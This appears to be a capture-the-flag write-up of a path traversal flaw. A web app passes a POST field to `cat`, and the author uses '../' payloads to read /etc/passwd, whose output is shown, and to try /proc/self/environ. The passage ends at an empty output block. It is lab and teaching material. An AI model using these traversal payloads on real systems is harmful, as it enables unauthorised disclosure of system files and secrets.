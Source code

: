 The dropdown menu is used to select a file (`something.txt`). The server use `cat` to read it en write its content into the `src` attribute of a video balise.

So we will try to disclose some system files into this `src` with the `bork` POST attribute.

So let's see the behaviour with:

bork=test.txt
`<iframe width="854" height="480" src="cat: borks/test.txt: No such file or directory?autoplay=1&loop=1" frameborder="0"></iframe>`

bork=../../../../../etc/passwd
```
<iframe width="854" height="480" src="root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
ctfuser:x:1001:1001::/home/ctfuser:?autoplay=1&loop=1" frameborder="0"></iframe>
```

bork=../../../../../proc/self/environ
```
```